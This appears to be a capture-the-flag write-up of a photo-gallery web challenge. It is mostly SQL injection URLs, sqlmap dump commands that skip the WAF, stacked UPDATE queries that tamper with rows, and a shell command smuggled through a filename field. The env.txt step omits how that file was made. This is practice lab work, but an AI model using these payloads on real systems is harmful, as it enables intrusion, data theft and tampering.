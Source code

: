 Test sql injection

```html
http://34.74.105.127/e273dcce57/fetch?id=1
http://34.74.105.127/e273dcce57/fetch?id=1 AND (select length(database()) == 6
http://34.74.105.127/e273dcce57/fetch?id=1 AND database() like 'level5'
http://34.74.105.127/e273dcce57/fetch?id=1 AND (select count(1) from information_schema.tables where table_schema=database())=2
http://34.74.105.127/e273dcce57/fetch?id=1 AND (select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)=6
http://34.74.105.127/e273dcce57/fetch?id=1 AND (select table_name from information_schema.tables where table_schema=database() limit 0,1) like 'albums'
http://34.74.105.127/e273dcce57/fetch?id=1 AND (select length(table_name) from information_schema.tables where table_schema=database() limit 1,1)=6
http://34.74.105.127/e273dcce57/fetch?id=1 AND (select table_name from information_schema.tables where table_schema=database() limit 0,1) like 'photos'
```

```bash
sqlmap -u "http://34.74.105.127/e273dcce57/fetch?id=1" --method GET --dump -D level5 -T photos -p id --code 200 --skip-waf --random-agent --threads 10 -o
sqlmap -u "http://34.74.105.127/e273dcce57/fetch?id=1" --method GET --dump -D level5 -T albums -p id --code 200 --skip-waf --random-agent --threads 10 -o
```

Try to change the title

``html
http://34.74.105.127/e273dcce57/fetch?id=1;UPDATE%20photos%20set%20title=%27hello%27%20where%20id=2;commit;
```

Space used: 0 total looks weird
By setting parent to 0 we get 232K total

```html
http://34.74.105.127/e273dcce57/fetch?id=1;UPDATE%20photos%20set%20parent=0;commit;
http://34.74.105.127/e273dcce57/fetch?id=1;UPDATE%20photos%20set%20filename=%27main.py%27%20where%20id=3;commit
```

Then visit 

```html
  http://34.74.105.127/e273dcce57/fetch?id=3
```

We get the source code of main.py which contains a flag in comment

By checking the ``main.py``, looks like we can perform shell script injection by modifying filename

Try to check if there is another files other than jpgs in files

```html
  http://34.74.105.127/a3aa84e754/fetch?id=1.1;update%20photos%20set%20filename=%27%20;ls%20files%20--ignore=*.jpg%20%27;commit;
```
Well, found nothing here.

How about get the enviroment variables 
```
  http://34.74.105.127/a3aa84e754/fetch?id=1.1;update%20photos%20set%20filename=%27files/env.txt%27%20where%20id=3;commit;
```

Get the env.txt file via

```html
  http://34.74.105.127/a3aa84e754/fetch?id=3
```

There are three flags in env.txt file
